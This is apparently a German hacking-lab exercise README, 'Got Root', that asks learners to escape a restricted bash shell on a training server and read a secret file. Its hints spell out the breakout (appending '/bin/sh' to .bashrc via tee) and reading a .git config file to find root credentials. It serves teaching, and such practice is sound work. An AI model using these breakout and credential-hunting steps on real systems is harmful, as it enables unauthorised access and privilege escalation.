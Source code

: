 # Aufgabe 07: Got Root
## Einleitung
Bei dieser Übung schlüpfst Du in die Rolle des Hackers und Du sollst auf dem Server auf den Inhalt einer geheimen Datei zugreifen. 

`/goldnugget/goldnugget.gn`

Du bist aber auf dem Server in einem "Gefängnis" eingesperrt und musst dort zuerst ausbrechen. 

![jail](jail.png)

## Gefängnis == Restricted Shell
Bei dieser Aufgabe kannst Du auf einen Linux Server zugreifen. 

* https://got-root.idocker.hacking-lab.com/ 
* Username = restricted
* Password = restricted 
  
Dort angekommen, ist Deine Shell in einem Gefängnis gefangen und kann nicht auf das ganze Betriebssystem und Files zugreifen. 

![linux](linux.png)

Versuche aus dem Gefängnis auszubrechen `rbash breakout` und hol Dir den Inhalt der geheimen Datei `/goldnugget/goldnugget.gn`


## Screenshot nach dem Login
![got-root](gr.png)


## Die wichtigsten Linux Kommandos für diese Aufgabe
```bash
cat             (anschauen von einem file)
ls              (listing von files)
ls -al          (listing von files mit auflistung berechtigungen)
ls -al bin      (listing des ordner "bin" mit berechtigungen)
echo "blabla"   (ausgabe von "blabla")
tee             (umlenkung der ausgabe auf bildschirm und in file)
|               (pipe = zwei befehle miteinander kombinieren)

HINT1 berechtigungen .bashrc
ls -al .bashrc

HINT2 überschreiben .bashrc mit etwas "eigenem"
echo "/bin/sh" | tee -a .bashrc

HINT3 ausloggen, neu einloggen nötig damit es aktiv wird
logout
login again
danach bist du zwar noch nicht root, aber aus dem gefängnis raus

HINT4 root werden
su - (passwort wird gefragt, aber wir kennen es noch nicht)
ls -al /home/restricted/.git 
cat /home/restricted/.git/config

```

## Ergklärung zum Hack
* Schaue Dir die Berechtigungen an (insbesondere von .bashrc)
* Was bewirkt die .bashrc? Mach Dich schlau bei Google
* Lerne den Befehl "tee" kennen (Nachlesen bei Google)
* Kombiniere diese Tipps und verlass das Gefängnis indem Du den Befehl "echo" mit der "|" und einer Datei kombinierst
* Du wirst eine .git Datei finden
* Was macht GIT? 
* Lerne das kennen
* Hack Dich weiter ...

